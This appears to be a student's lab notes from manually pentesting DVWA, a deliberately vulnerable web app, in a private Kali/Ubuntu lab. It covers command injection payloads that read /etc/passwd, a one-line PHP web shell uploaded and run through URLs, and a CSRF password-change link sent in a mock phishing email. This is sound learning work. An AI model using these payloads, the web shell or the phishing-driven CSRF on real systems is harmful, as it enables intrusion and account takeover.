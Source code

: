 # Manual Pentesting: DVWA Modules
## Objective
To validate the OWASP ZAP scan results and observe how the web app reacts. Continuation of part 1, which covered SQLi, XSS (reflected), and brute force.

___
## Command Injection 
**Expected behavior**: ping the input IP address (e.g. 127.0.0.1 to ping the Ubuntu server from Kali) and display its result.

![[8_1.png]]

**Payload:** `127.0.0.1; whoami
- Meaning: send ping to Ubuntu then command chain to reveal which system user the web server is executing as
- Result: www-data displayed on page after ping results

![[8_2.png]]

**Payload:** `127.0.0.1 && uname -a
- Meaning: send ping then reveal the victim's kernel and system architecture details if the ping succeeds
- Result: Linux server info

![[8_3.png]]

**Payload:** `127.0.0.1; cat /etc/passwd
- Meaning: send ping then display the contents of the `/etc/passwd` file
- Result: lists all user accounts on Ubuntu's system

![[8_4.png]]

___
## File Upload
### Steps
1. Created a malicious file named`shell.php`
	This file executes any system command passed through the URL via the `cmd` parameter
```php
   <?php system($_GET['cmd']); ?>
```

2. Uploaded file to DVWA's File Upload module

![[8_5.png]]

3. Executed commands in the browser by entering the urls:
	`http://192.168.56.20/DVWA/hackable/uploads/shell.php?cmd=whoami

	![[8_6.png]]
	
	`?cmd=uname -a
	
	![[8_7.png]]

	`?cmd=cat /etc/passwd
	
	![[8_8.png]]
### Result
All commands were executed and leaked information about the victim server, like in the command injection module.

___
## CSRF (cross site request forgery)
### Purpose
While the Ubuntu victim is logged into DVWA, trick them into changing the password of the admin account.

![[8_9.png]]
### Steps
#### 1. Inspect the module's page source and create malicious link.

![[Pasted image 20250808212618.png]]
The web app uses a GET method to change the password. 
- `action="#"` means it posts to the same page
- Input fields:
	- `password_new`
	- `password_conf`
	- `Change` (submit button name)

The following link can be used to change the password to `hacked: 
```
http://192.168.56.20/DVWA/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change
```
#### 2. Victim is logged into DVWA as `admin.

#### 3. Send phishing email to victim containing the malicious link.
I sent myself the following email and opened it on the Ubuntu VM. I clicked on the "Claim Your Gift" button, which opened the malicious link in a new tab.

![[8_10.png]]
![[8_11.png]]
#### Result
When I click Test Credentials and enter`admin`/`password`, the login fails. 

![[8_12.png]]

`admin`/`hacked` works, so the password was changed to `hacked` successfully.

![[8_13.png]]